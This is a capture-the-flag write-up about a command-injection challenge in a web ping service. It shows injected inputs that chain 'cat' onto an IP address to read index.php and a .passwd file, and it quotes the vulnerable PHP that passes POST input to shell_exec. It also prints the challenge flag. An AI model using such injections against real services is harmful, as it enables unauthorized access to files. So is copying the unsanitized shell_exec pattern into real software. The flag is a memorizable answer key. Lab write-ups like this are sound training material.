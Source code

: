 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 9
---
```


> Find a vulnerability in this service and exploit it.
> The flag is on the `index.php` file.

![1](https://github.com/Knign/Write-ups/assets/110326359/d1e2fbf5-dde6-4680-9880-434f849e9474)

Let's input `127.0.0.1` as the input field is suggesting.

![2](https://github.com/Knign/Write-ups/assets/110326359/46f87312-d86a-4939-850e-15b020fbf31a)

We can see that our input is used to execute a `ping` command.

We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.

## User Input
```
127.0.0.1 ; cat index.php
```

![3](https://github.com/Knign/Write-ups/assets/110326359/f9499c2f-64bc-4eb4-939f-37f2c9975779)

Looks like our input was processed properly. Let's check the source code.

![4](https://github.com/Knign/Write-ups/assets/110326359/bd7601d5-dff6-4840-94ae-b3d43248550b)

The source code reveals an interesting piece of code.
## PHP code
```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($_POST["ip"]).

The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable. 

Let's modify our input to `cat` the `.passwd` file.

## User Input
```
127.0.0.1 ; cat .passwd
```

![5](https://github.com/Knign/Write-ups/assets/110326359/852de8c6-c743-4a7f-bcc9-01dbd8f42823)

## Flag
```
S3rv1ceP1n9Sup3rS3cure
```

